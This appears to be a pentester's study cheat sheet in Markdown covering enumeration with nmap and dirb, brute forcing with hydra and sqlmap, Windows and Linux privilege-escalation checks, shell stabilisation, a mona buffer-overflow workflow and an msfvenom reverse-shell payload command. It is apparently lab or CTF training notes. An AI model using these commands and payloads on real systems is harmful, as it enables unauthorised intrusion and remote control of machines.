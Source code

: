 # Basic Steps

[Tyler's Notebook](https://southeasttech-my.sharepoint.com/:o:/g/personal/tyler_ramsbey_southeasttech_edu/EmrNEjx_FjRKjYRotc9TikMB7DtzCwhKWOAEovdtZADBgg?rtime=bQkHVxRr20g)

## Automatic web enum
- dirb | dirsearch
- linpeas
- wpsscan -U user -P password

## Basic network
- nmap (all ports)
  - script: locate -r nse$ | grep NAME
  - sudo nmap -p- -Pn -sS TARGET -oA AllPort
  - sudo nmap -p -Pn -A 10.10.43.161 -oA Services
  - -v Version
  - -A os, in-build scripts
  - -sC default scripts

- nmap Scrips
  - locate -r nse$ | grep mysql = nmap script

## Login
- brute force: hydra
- sqlmap

## Windows
- /priv
- systeminfo
- smb read/write
  - --script=smb-enum-shares.nse,smb-enum-users.nse
- mount:
  - --script=nfs-ls,nfs-statfs,nfs-showmount
- browser cache
- scheduled task
- UAC
- Check loggings
  - sysmon enable / powershell loggging enabled ?
- echo %VARIABLE%
- Unquoted services:
  - wmic service get name,displayname,pathname,startmode | findstr /v /i "C:\Windows
- Permissions:
  - icalcs
- eventvwr
  
## Linux
- sudo -l
- find / -perm -u=s -type f 2>/dev/null
- find / -type f -perm -04000 -ls 2>/dev/null : SUID
- psexec.py
- LinEnum.sh + LinPeas
- lscpu
- lsblk -a
- lsusb -v
- lspci -t -v
- fidlist -l
- Groups: LXD????
- crontab
  
- Shell stabilize
  - python3 -c 'import pty;pty.spawn("/bin/bash")'
  - python3 -c  import pty;pty.spawn('/bin/bash') 
  - python -c 'import pty; pty.spawn("/bin/bash")'
  - export TERM=xterm

## Upload files
### Windows
### Linux


# Buffer overflow
- Upload file on Immunity Debugger (windows)
  
```
!mona config -set workingfolder c:\Users\admin\Desktop\patota
python -c 'print"A" * TOTAL'
!mona findmsp -distance TOTAL 
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l TOTAL
!mona findmsp -distance TOTAL
```

- EIP offset
- Remove "A" from script + write BBB on "retn"

```
while bad_chars
  !mona bytearray -b "\x00" = remove bad chars
  strings.py = without bad chars
  !mona compare -f c:\Users\admin\Desktop\patota\bytearray.bin  -a ESP-Address

!mona jmp -r esp -cpb "Badchars"
```

- Copy address and write it backwards
- Add padding: "\x90" * 16
- Shell code msfvenom without bad chars

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.9.1.255 LPORT=80 EXITFUNC=thread -b "\x00\x0a" -f c
```
## Convert python
dos2unix file
## Pictures
- strings
- exiftool
## Payloads
- msfvenom - reverse -f aspx -o app.aspx
- -e x86/shikata_ga_nai
- windows/shell_reverse_tcp 

### Kerberos
- Enumerate
  - setspn -T medin -Q ​ */* = extract accounts from Service Principal Name

